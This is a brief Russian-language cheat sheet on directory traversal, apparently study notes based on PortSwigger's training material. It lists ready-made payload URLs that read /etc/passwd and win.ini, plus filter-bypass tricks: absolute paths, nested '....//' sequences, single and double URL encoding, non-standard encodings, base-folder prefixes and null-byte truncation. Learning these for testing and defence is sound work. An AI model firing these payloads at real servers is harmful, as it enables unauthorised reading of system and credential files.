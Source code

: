 [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

## Чтение произвольных файлов через обход каталога
Unix-based:
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
Windows:
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`
## Общие препятствия для использования уязвимостей обхода путей к файлам
Использование абсолютной пути:
`https://insecure-website.com/loadImage?filename=/etc/passwd`
Использование вложенных последовательностей, например, ....// или ....\\/:
`https://insecure-website.com/loadImage?filename=....//....//....//etc/passwd`
Обход путем кодирования URL:
`../ == %2e%2e%2f`
или двойного кодирования URL:
`../ == %252e%252e%252f`
Различные нестандартные кодировки, такие как `..%c0%af` или `..%ef%bc%8f`, также могут сработать.
Если приложение требует, чтобы имя файла, начиналось с ожидаемой базовой папки, например, `/var/www/images`, то можно включить требуемую базовую папку, за которой следуют подходящие последовательности:
`https://insecure-website.com/loadImage?filename=/var/www/images/../../../etc/passwd`
Если приложение требует, чтобы имя файла, предоставляемое пользователем, заканчивалось ожидаемым расширением файла, например `.png`, то можно использовать нулевой байт (`%00`), чтобы обрезать путь к файлу перед требуемым расширением:
`https://insecure-website.com/loadImage?filename=../../../etc/passwd%00.png`


